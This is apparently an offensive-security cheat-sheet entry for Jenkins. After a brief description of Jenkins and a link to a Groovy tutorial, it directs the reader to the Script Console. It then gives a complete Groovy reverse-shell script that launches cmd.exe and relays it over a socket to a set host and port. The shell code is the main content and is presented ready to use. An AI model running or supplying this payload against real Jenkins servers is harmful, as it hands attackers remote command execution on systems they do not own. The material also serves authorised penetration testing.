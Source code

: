 # Jenkins
[wikipedia](https://en.wikipedia.org/wiki/Jenkins_(software))
*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat.*


## Groovy Scripts

[xinyMinutes](https://learnxinyminutes.com/docs/groovy/)

Manage Jenkins > Script Console

[Reverse shell ](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
```groovy
String host="localhost";

int port=8044;

String cmd="cmd.exe";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
